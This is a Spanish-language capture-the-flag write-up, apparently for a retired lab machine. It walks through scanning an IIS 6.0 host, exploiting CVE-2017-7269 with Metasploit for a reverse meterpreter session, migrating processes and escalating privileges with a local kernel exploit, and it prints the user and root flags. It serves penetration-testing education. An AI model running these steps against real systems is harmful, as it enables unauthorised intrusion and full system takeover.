 
![[ 20250720112518.png]](grandpa-images/20250720112518.png)

# NMAP

Lo primero es hacer un escaneo básico de puertos con nmap 

>En los writeups de aqui en adelante cambiare la ejecución de algunos comandos por ejemplo :
> - en Nmap cambiaremos -oN scanner (que es la manera en la que solía realizar el primer escaneo ) por -oG allPorts (ahora lo haremos en formato grepeable mandándolo al archivo allPorts se le puede poner cualquier nombre pero yo me he guiado de como hace mas maquina S4vitar y ya por la costumbre de verlo asi voy a mantener el mismo nombre )

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.129.182.216 -oG allPorts
```

![[ 20250720112643.png]](grandpa-images/20250720112643.png)

>haremos este formato grepeable por el motivo de que tenemos en el .zshrc una funcion llamada extractPorts (tambien de S4vitar) con la que veremos de manera sencilla los puertos, a demas que se quedaran guardados en la clipboard y sera mas sencillo el siguiente escaner con scripts>

```bash
extractPorts allPorts
```

![[ 20250720113211.png]](grandpa-images/20250720113211.png)

>En este caso solo es un puerto pero cuando se tratan de 5, 6 u 10 puertos abiertos esta función nos ayuda bastante a dinamizar el proceso de reconocimiento

seguimos con un escaneo con scripts básicos de nmap 

```bash
nmap -p80 -sCV 10.129.222.98 -oN targeted
```

![[ 20250720113440.png]](grandpa-images/20250720113440.png)

aqui vemos la versión Microsoft IIS httpd 6.0

he explorado el puerto 80 hay bastantes html pero no hay gran cosa que poder hacer con mi nivel actual asi que de momento nos apoyamos en metasploit

# Mestasploit

Buscamos en google con el nombre del servicio y la version 

![[ 20250720113746.png]](grandpa-images/20250720113746.png)

aqui podemos ver que la propia ia de Google reconoce la vulnerabilidad CVE-2017-7269


abrimos metasploit

```bash
msfdb run
```

y  buscamos por la vulnerabilidad encontrada

```bash
search CVE-2017-7269
```

![[ 20250720113945.png]](grandpa-images/20250720113945.png)

como solo hay un modulo utilizaremos ese

```bash
use 0
```

cambiaremos:

- RHOSTS - IP VCTIMA
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA 
	-hay veces que los sistemas bloquean el puerto 4444 que es el que usa metasploit por defecto por lo que a veces es mejor cambiarlo


lanzamos el exploit 

```bash
exploit
```

conseguiremos una terminal como meterpreter pero non tendremos acceso a nada así que tenemos que solucionar eso 

# Escalada de privilegios

Aqui descubrí una herramienta que me ha gustado mucho, se usa desde meterpreter por lo que se de momento

```bash
run post/multi/recon/local_exploit_suggester 
```

esta herramienta viene ya instalada y nos hace un escáner de vulnerabilidades en la maquina local en este caso el Windows victima

![[ 20250720112429.png]](grandpa-images/20250720112429.png)


nos da opciones a varios exploits pero seguimos estando en una configuración del sistema que nos limita asi que tendremos que migrar

## migración

usaremos `ps` para ver PID´s a los que podamos migrar y que tengan autorizaciones

```bash
ps
```

![[ 20250720115330.png]](grandpa-images/20250720115330.png)

en este caso migraremos a wmiprvse.exe 

```bash
migrate 1884
```

![[ 20250720115417.png]](grandpa-images/20250720115417.png)

una vez hemos migrado haremos un background del meterpreter para dejar la sesion suspendida y poder reutilizarla


```bash
background
```

ahora utilizaremos uno de los exploits encontrados en el escáner local que hicimos antes. en este caso yo usare `exploit/windows/local/ms14_070_tcpip_ioctl`

![[ 20250720115610.png]](grandpa-images/20250720115610.png)

modificamos:
- SESSION - set session 1
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA

y lanzamos el ataque

```bash
exploit
```

ahora si que tendremos una shell de meterpreter con total acceso a todo el sistema

# flags

## User

![[ 20250720120049.png]](grandpa-images/20250720120049.png)

la flag de user esta en el directorio: C:\Documents and Settings\Harry\Desktop

user : bdff5ec67c3cff017f2bedc146a5d869

## Root

![[ 20250720120210.png]](grandpa-images/20250720120210.png)

la flag de root esta en el directorio:  C:\Documents and Settings\Administrator\Desktop

root: 9359e905a2c35f861f6a57cecf28bb7b

# Nota

>Muestro las flags con la intencion de no ocultar nada en el writeup y que todo quede limpio y claro. No obstante de nada sirve copiar la flag para compartir la maquina resuelta, lo que verdaderamente da valor no es la flag si no el entendimiento del proceso para conseguirla.
>Con este writeup lo que se busca es que una persona pueda entender la maquina y las vulnerabilidades que contiene, a demas de aprender la manera de explotarlas. Os animo a que trateis de aprender el proceso y la metodologia y que practiqueis varias veces la maquina hasta poder hacerla sin mirar guias de esta forma este writeup sera realmente eficiente y podreis aprender y crecer en el mundo de la ciberseguiridad al igual que yo trato de aprender y crecer de igual modo.

Esto es todo espero que os ayuden mis writeups.

